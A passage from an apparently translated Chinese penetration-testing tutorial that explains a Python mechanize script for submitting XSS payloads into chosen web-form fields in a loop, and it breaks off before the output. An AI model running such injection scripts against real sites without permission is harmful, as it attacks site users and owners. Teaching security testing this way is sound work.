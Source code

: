 ```py
while flag =="y":
  br.open(url)
  br.select_form(nr=0)
  for i in xrange(0, len(list_a)):
    att=list_a[i]
    br.form[att] = s['xss'][p]
  for i in xrange(0, len(list_n)):
    non=list_n[i]
    br.form[non] = 'aaaaaaa'

  print s['xss'][p]
  br.submit()
  ch = raw_input("Do you continue press y ")
  p = p+1
  flag = ch.lower()
```

前面的代码能够攻击多个字段或单个字段。在这段代码中，我们使用了两个列表，`list_a`和`list_n`。`list_a`列表包含你想要发送 XSS 攻击的字段名称，`list_n`包含你不想要发送 XSS 攻击的字段名称。

现在，让我们看看程序。如果你理解了`xss.py`程序，你会注意到我们对`xss.py`进行了修改，以创建`xss_list.py`：

```py
list_a =[]
list_n = []
field = int(raw_input('Enter the number of field "not readonly" '))
for i in xrange(0,field):
  na = raw_input('Enter the field name, "not readonly" ')
  ch = raw_input("Do you attack on this field? press Y ")
  if (ch=="Y" or ch == "y"):
    list_a.append(na)
  else :
    list_n.append(na)
```

我已经解释了`list_a[]`和`list_n[]`的重要性。变量字段要求用户输入表单中非只读字段的总数。`for i in xrange(0,field):`语句定义了从 0 到字段的循环，运行字段次数，意味着表单中存在的字段总数。`na`变量要求用户输入字段名称，`ch`变量要求用户输入“你要攻击这个字段吗”？这意味着，如果你按下*y*或*Y*，输入的字段将进入`list_a`；否则，它将进入`list_n`：

```py
for i in xrange(0, len(list_a)):
    att=list_a[i]
    br.form[att] = s['xss'][p]
  for i in xrange(0, len(list_n)):
    non=list_n[i]
    br.form[non] = 'aaaaaaa'
```

前面的代码非常容易理解。两个`for`循环用于两个列表，用于填写表单字段。

代码的输出如下：
